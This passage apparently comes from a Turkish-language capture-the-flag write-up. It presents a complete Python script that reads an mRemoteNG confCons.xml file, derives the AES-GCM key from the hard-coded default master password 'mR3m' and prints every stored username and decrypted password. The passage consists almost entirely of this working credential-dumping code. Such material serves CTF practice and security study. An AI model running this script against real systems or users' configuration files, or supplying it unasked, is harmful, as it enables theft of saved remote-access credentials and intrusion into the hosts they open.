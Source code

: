 #### Method 3: Script It

Çözdüğüm sırada GitHub'da yalnızca java sürümü vardı ve ben bir python sürümü istiyordum. Bu yüzden hızlı bir script yazdım:

```
  1 #!/usr/bin/env python3
  2 
  3 import base64
  4 import hashlib
  5 import re
  6 import sys
  7 from Cryptodome.Cipher import AES
  8 
  9 if len(sys.argv) != 2:
 10     print(f"[-] Usage: {sys.argv[0]} [confCons.xml]")
 11     sys.exit()
 12 
 13 try:
 14     with open(sys.argv[1], 'r') as f:
 15         conf = f.read()
 16 except FileNotFoundError:
 17     print(f"[-] Unable to open {sys.argv[1]}")
 18     sys.exit()
 19 
 20 mode = re.findall('BlockCipherMode="(\w+)"', conf)
 21 if len(mode) !=1:
 22     print("[-] Warning - No BlockCipherMode detected")
 23 elif mode[0] != 'GCM':
 24     print(f"[-] Warning - This script is for AES GCM Mode. {mode} detected")
 25 
 26 nodes = re.findall('<Node .+/>', conf)
 27 if len(nodes) > 0:
 28     print(f"[+] Found nodes: {len(nodes)}\n")
 29 else:
 30     print("[-] Found no nodes")
 31 
 32 for node in nodes:
 33     user = re.findall(' Username="(\w*)"', node)[0]
 34     enc = base64.b64decode(re.findall(' Password="([^ ]+)"', node)[0])
 35     salt = enc[:16]
 36     nonce = enc[16:32]
 37     cipher = enc[32:-16]
 38     tag = enc[-16:]
 39     key = hashlib.pbkdf2_hmac("sha1", b"mR3m", salt, 1000, dklen=32)
 40     aes = AES.new(key, AES.MODE_GCM, nonce=nonce)
 41     aes.update(salt)
 42     password = aes.decrypt_and_verify(cipher, tag).decode()
 43     print(f"Username: {user}\nPassword: {password}\n")
```

Bir consCons.xml dosyası alır ve bulabildiği tüm çözülmüş parolaları yazdırır.
